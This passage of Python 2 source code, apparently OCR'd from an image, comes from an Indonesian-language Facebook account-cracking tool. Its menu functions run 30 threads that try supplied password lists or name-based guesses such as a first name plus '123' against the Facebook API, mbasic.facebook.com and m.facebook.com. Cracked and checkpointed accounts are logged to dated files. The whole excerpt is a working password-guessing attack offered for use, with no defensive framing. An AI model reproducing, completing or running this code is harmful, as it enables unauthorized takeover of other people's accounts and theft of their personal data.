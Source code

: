 			for user in id:
				uid, name = user.split("<=>")
				fall.submit(api, uid, pwek.split(","))
		exit("\n\n [#] crack selesai...")
	elif ask=="2":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall:
			for user in id:
				uid, name = user.split("<=>")
				fall.submit(mfbasic, uid, pwek.split(","),"https://mbasic.facebook.com")
		exit("\n\n [#] crack selesai...")
	elif ask=="3":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall:
			for user in id:
				uid, name = user.split("<=>")
				fall.submit(mfbasic, uid, pwek.split(","),"https://m.facebook.com")
		exit("\n\n [#] crack selesai...")
	
def sandiotomatis():
	print("\n [ pilih method version - silahkan coba satu² ]\n")
	print(" [1]. method API (fast)")
	print(" [2]. method mbasic (slow)")
	print(" [3]. method mobile (super slow)")
	ask=raw_input("\n [?] method : ")
	if ask=="":
		exit(" %s[!] isi jawaban dengan benar!"%(M))
	elif ask=="1":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall:
			for user in id:
				uid, name = user.split("<=>")
				nam = name.split(' ')
				if len(name) == 3 or len(name) == 4 or len(name) == 5:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				else:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				fall.submit(api, uid, pwx)
		exit("\n\n [#] crack selesai...")
	elif ask=="2":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall:
			for user in id:
				uid, name = user.split("<=>")
				nam = name.split(' ')
				if len(name) == 3 or len(name) == 4 or len(name) == 5:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				else:
					pwx = [name, nam[0]+"123", nam[0]+"12345"]
				fall.submit(mfbasic, uid, pwx,"https://mbasic.facebook.com")
		exit("\n\n [#] crack selesai...")
	elif ask=="3":
		print('\n [+] hasil OK disimpan ke -> OK/%s.txt' % (tanggal))
		print(' [+] hasil CP disimpan ke -> CP/%s.txt' % (tanggal))
		print('\n [!] anda bisa mematikan data selular untuk menjeda proses crack\n')
		with ThreadPoolExecutor(max_workers=30) as fall: